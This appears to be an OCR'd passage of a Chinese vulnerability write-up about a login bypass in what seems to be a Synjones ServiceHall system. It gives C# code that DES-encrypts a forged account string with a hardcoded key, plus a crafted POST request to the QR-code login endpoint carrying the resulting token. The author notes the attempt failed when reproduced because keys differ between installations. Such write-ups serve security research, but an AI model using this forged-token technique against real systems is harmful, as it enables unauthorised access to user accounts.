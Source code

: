 > **using** System;
> 
> **using** ServiceHall.Common;
> 
> **namespace** text2
> 
> {
> 
> class Program
> 
> {
> 
> public staticvoid Main(string[] args)
> 
> {
> 
> string account = "999_2099-11-11 12:00:00";
> 
> string M = **encrypt**(account);
> 
> Console.**WriteLine**(M);
> 
> Console.**ReadLine**();
> 
> }
> 
> public staticstring encrypt(string Text)
> 
> {
> 
> return DesEncryptHelper.**Encrypt**(Text, "SYNJONES");
> 
> }
> 
> }
> 
> }

![](https://fmmvzwzcqb.feishu.cn/space/api/box/stream/download/asynccode/?code=YjU2MjRhNTMwN2ZkOGY2YjM0N2JiZWU5NDkzNDUwMGRfSU1oeGRWTFNyS1hPZDhac24yekh1UDRnOEwzZ2daOTBfVG9rZW46Ym94Y25ZRHhsZUhiWkQ2YVlVcWFtUXBHRDZmXzE2NTExNTc3MTg6MTY1MTE2MTMxOF9WNA)

数据包如下：

> POST /Login/QrCodeLogin HTTP/1.1
> 
> Host: *******
> 
> account= BF86B94C4D0E5FC206DDDD5A0ADE91187C07262CE562DAE6

复现时候提示账号解密失败，由于加密密钥的不一样和账号收集的局限性，这个漏洞利用起来会有点鸡肋

![](https://fmmvzwzcqb.feishu.cn/space/api/box/stream/download/asynccode/?code=YzcwYWRiMDUyZjI3NGI1YzZiZTQ1MGU5ZjRiZmRlZDFfMjRyUkVmU2FjNmFOcmtHQlRjMGg4OWwxSkR5dTk0ODdfVG9rZW46Ym94Y255NGRCM01NclA2OHhDR1NEUGlua3ROXzE2NTExNTkxNjg6MTY1MTE2Mjc2OF9WNA)

